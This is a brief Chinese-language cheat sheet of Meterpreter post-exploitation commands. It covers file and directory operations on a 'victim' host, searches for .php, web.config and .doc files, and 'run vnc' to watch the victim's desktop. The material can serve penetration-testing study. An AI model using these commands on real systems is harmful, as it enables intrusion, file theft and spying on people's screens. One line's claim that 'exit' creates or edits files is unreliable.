

# 基本操作命令
pwd#输出工作目录
cd c:\\ #进入目录文件下 cd c:/
rm file #删除文件
mkdir dier #在受害者系统上的创建目录
rmdir#受害者系统上删除目录
dir#列出目标主机的文件和文件夹信息
可以使用exit 文件名称  进行创建文件或者编辑文件
mv#修改目标主机上的文件名
meterpreter > search -d c:/Users/admin/ -f *.php    -d 路径 -f 文件类型
search -d d:\\www -f web.config #search 文件，如
search  -d c:\\  -f *.doc   -d 路径 -f 文件类型
run vnc   查看桌面 就是在受害者主机安装vnc，然后kali这边调